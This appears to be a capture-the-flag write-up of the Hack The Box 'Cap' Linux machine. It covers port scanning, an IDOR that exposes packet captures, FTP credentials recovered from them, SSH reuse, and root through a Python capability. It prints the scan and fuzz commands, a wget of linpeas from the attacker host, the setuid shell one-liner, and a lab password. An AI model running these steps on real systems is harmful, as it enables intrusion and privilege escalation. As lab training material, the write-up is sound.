 # HTB Cap Machine Writeup


<img width="480" height="274" alt="image" src="https://github.com/user-attachments/assets/cd0e62fe-d4c6-4dff-abdb-43d8e0b5f0e9" />

## Machine Information
- **Target IP**: 10.10.10.245
- **Operating System**: Linux
- **Difficulty**: Easy
- **Attack Vector**: IDOR + Capability Privilege Escalation

## Executive Summary

This writeup documents the exploitation of the HTB Cap machine, which featured an IDOR vulnerability in a network monitoring dashboard and a capability-based privilege escalation. The attack path involved discovering exposed network captures through directory fuzzing, analyzing FTP traffic to extract credentials, gaining SSH access, and exploiting Python capabilities to achieve root privileges.

## Reconnaissance

### Port Scanning

Initial reconnaissance was performed using Nmap to identify open services:

```bash
sudo nmap -sS --open -p- --min-rate 5000 10.10.10.245 -oG ./nmap/allports
```

![Port Scan Results](images/Pasted%20image%2020250824193714.png)

**Open Ports Discovered**:
- Port 21 (FTP)
- Port 22 (SSH) 
- Port 80 (HTTP)

### Service Analysis

**FTP Service**: Anonymous login attempts were unsuccessful.
**Web Service**: Accessed port 80 and discovered a network monitoring dashboard.

## Web Application Analysis

### Initial Discovery

The web application presented a network monitoring dashboard:

![Web Dashboard](images/Pasted%20image%2020250824202048.png)

### Directory Discovery

Web enumeration revealed a `/data/` directory containing network capture snapshots from previous scans.

### IDOR Vulnerability Exploitation

An IDOR vulnerability was identified allowing access to other users' network captures. Directory fuzzing was performed to enumerate available snapshots:

```bash
wfuzz -u http://10.10.10.245/data/FUZZ -z range,0-100 --hc 404,302
```

![IDOR Discovery](images/Pasted%20image%2020250824202734.png)

Multiple historical snapshots were discovered and could be downloaded for analysis.

## Credential Discovery

### Network Traffic Analysis

The most significant finding was in the `0.pcap` capture file, which contained FTP traffic from user Nathan. Since FTP traffic is unencrypted, credential extraction was possible through packet analysis.

![FTP Traffic Analysis](images/Pasted%20image%2020250824203004.png)

**Credentials Extracted**:
- **Username**: nathan
- **Password**: Buck3tH4TF0RM3!

## Initial Access

### FTP Access

Using the discovered credentials, FTP access was established:

![FTP Login](images/Pasted%20image%2020250824203548.png)

The user flag was discovered in the FTP directory, but limited functionality prompted attempts at SSH access.

### SSH Access

The same credentials successfully provided SSH access to the system:

![SSH Access](images/Pasted%20image%2020250824203746.png)

SSH access provided a more comfortable environment for privilege escalation activities.

## Privilege Escalation

### System Enumeration

The `linpeas.sh` enumeration script was transferred to the target system for comprehensive analysis:

```bash
wget http://10.10.14.9/linpeas.sh
```

![Linpeas Transfer](images/Pasted%20image%2020250824204221.png)

### Capability Discovery

Linpeas identified an interesting capability on the Python 3.8 binary:

![Python Capability](images/Pasted%20image%2020250824205113.png)

**Critical Finding**: `/usr/bin/python3.8` has special capabilities that can be exploited for privilege escalation.

### GTFOBins Research

Research on GTFOBins (https://gtfobins.github.io/gtfobins/python/) revealed the privilege escalation technique for Python capabilities:

```bash
./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

### Root Access Achievement

Executing the capability exploit successfully granted root privileges:

![Root Access](images/Pasted%20image%2020250824205958.png)

**Result**: Root flag obtained and machine fully compromised.

## Technical Analysis

### Vulnerability Chain

The successful compromise involved multiple vulnerabilities:

1. **IDOR Vulnerability**: Unauthorized access to other users' network captures
2. **Information Disclosure**: Unencrypted FTP credentials in network captures  
3. **Credential Reuse**: Same credentials used across multiple services
4. **Misconfigured Capabilities**: Python binary with dangerous capabilities

### Attack Vector Summary

1. **Web Reconnaissance** → Discovery of monitoring dashboard
2. **IDOR Exploitation** → Access to historical network captures
3. **Traffic Analysis** → FTP credential extraction from pcap files
4. **Lateral Movement** → SSH access with discovered credentials
5. **Privilege Escalation** → Python capability exploitation

## Key Lessons

1. **IDOR Impact**: Directory traversal vulnerabilities can expose sensitive data
2. **Traffic Analysis**: Unencrypted protocols reveal sensitive information
3. **Credential Security**: Avoid credential reuse across services
4. **Capability Management**: Carefully configure file capabilities to prevent abuse
5. **Network Monitoring**: Proper access controls needed for capture storage

## Conclusion

The HTB Cap machine demonstrated a realistic attack scenario combining web vulnerabilities with system misconfigurations. The IDOR vulnerability provided initial access to sensitive network data, while capability misconfiguration enabled privilege escalation. This exercise highlighted the importance of proper access controls and secure system configuration practices.
